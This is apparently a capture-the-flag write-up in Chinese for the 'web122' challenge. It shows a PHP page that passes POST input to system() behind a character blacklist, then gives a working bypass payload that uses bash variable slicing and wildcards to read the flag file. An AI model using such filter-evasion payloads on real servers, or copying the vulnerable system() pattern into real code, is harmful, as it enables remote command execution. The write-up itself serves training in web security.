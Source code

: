 
#### web122

 

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|PWD|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|#|%|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>


```

pwd被过滤了

尝试用home

```
${HOME::${#?}}???${HOME::${#?}}?????${#RANDOM} ????.???
```

然后发现#被过滤

重新构建，因为要求是1

所以要进行命令拼接

```
<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
```

得到flag

![image-20240429120651637](image/image-20240429120651637.png)

![image-20240429120711440](image/image-20240429120711440.png)

---
